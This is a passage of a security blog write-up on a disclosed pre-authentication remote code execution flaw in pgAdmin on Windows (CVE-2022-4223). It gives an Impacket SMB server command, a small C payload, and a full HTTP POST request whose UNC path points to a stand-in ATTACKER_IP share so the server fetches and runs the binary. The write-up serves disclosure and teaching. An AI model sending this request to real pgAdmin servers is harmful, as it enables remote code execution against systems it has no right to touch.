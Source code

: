 If your patient enough, you could try to use your Python CLI on Windows to check what happens after using an **UNC path to a remote share** in the `os.path.abspath(os.path.join(...))` construct. Guess what, it will work as expected and the file would have been retrieved, read, called, whatever.

Let’s try this by setting up an SMB server on our Linux attacker machine using the famous [Impacket suite](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```
./smbserver.py myshare $HOME/tmp 
```

In my `tmp` directory I create a file named after a randomly chosen entry from the list `UTILITIES_ARRAY`, e.g. `pg_dump[.exe]`. Well, not totally random content, we want to do it right the first time. So let’s create an `.exe` using the `mingw` cross-compiler and `pg_dump.c` like this.

```C
void main() {
 system("cmd.exe /K mspaint");
}

```

Now `POST /misc/validate_binary_path HTTP/1.1` should trigger the vulnerable code path. Depending on your pgAdmin Windows installation, you’ve to fetch a Cookie and CSRF-token first from either browsing to `/`, `/login` or `/browser`. It’s possible for any installation type, so we just assume you were able to retrieve the content for the `X-pgA-CSRFToken` header for now. The final payload looks like this.

```
POST /misc/validate_binary_path HTTP/1.1
Host: [TARGETHOST]
Cookie: [COOKIES_YOU_FETCHED_IN_ADVANCE]
X-pgA-CSRFToken: [CSRF_TOKEN_YOU_FETCHED_IN_ADVANCE]
Connection: close
Referer: https://[TARGETHOST]/browser/
Content-Length: [n]
Content-Type: application/json
{"utility_path":"\\\\[ATTACKER_IP]\\[PREFERED_SHARE_NAME]"} 
```

After firing the payload, we see an incoming SMB connection at our attacker machine, retrieving the file(s) `pg_dump.exe`: Pre-Auth RCE achieved.

![](https://frycos.github.io/assets/images/codeql/mspaint.png)

The pgAdmin team assigned **CVE-2022-4223** and released a new version **6.17** quickly. Kudos to them and their kind communication. I’m proud also that they now improved their disclosure process by adding more information on their GitHub project and also discuss the creation of a `SECURITY.md`.

![](https://frycos.github.io/assets/images/codeql/patch.png)

Alright, unauthenticated context for an attacker: killed. But in my opinion, the same exploit should still work from an authenticated context.

You might think: well, this was easy. Yeeesss, it was and everbody could have done it for sure. Use the tools and knowledge of all the bright people in infosec to help you through your journey of finding critical vulnerabilities. But please also have a deeper look into CodeQL first. From my experience, this was a total showcase, i.e. you might write your own queries and understand possible source APIs of your target application first before achieving any meaningful results. There exist some awesome workshops even with [videos](https://youtu.be/-bJ2Ioi7Icg) by the talented Alvaro Muñoz aka pwntester. I can also highly recommend the [workshop videos](https://youtu.be/nvCd0Ee4FgE) “Finding security vulnerabilities in Java with CodeQL”. There is so much more: search and profit!